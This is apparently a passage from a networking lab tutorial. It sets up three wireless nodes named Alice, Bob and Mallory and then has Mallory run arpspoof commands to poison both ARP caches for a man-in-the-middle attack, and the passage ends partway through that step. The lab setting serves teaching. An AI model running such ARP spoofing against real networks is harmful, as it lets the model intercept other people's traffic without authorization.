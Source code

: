 Use 

```
iwconfig wlan0
```

to verify that you are connected.

Finally, set an IP address on each node. On Alice:

```
ifconfig wlan0 192.168.0.3
```

On Bob:

```
ifconfig wlan0 192.168.0.4
```

and on Mallory: 

```
ifconfig wlan0 192.168.0.5
```

Also use

```
ifconfig wlan0
```

and make a note of each node's MAC address.

Make sure all the nodes can ping one another by IP address. On each, run:

```
ping -c 1 192.168.0.3
ping -c 1 192.168.0.4
ping -c 1 192.168.0.5
```



### Carry out the attack

Now that everyone is on the network, Mallory is ready to carry out her attack. For this attack, she will send gratuitous ARP messages, making Alice think that Mallory's MAC address is the Layer 2 address for Bob's IP address, and making Bob think that Mallory's MAC address is the Layer 2 address for Alice's IP address.

To start the ARP spoofing, Mallory will run

<pre>
arpspoof -i wlan0 -t 192.168.0.3 192.168.0.4
</pre>

in one terminal and 

<pre>
arpspoof -i wlan0 -t 192.168.0.4 192.168.0.3 
</pre>
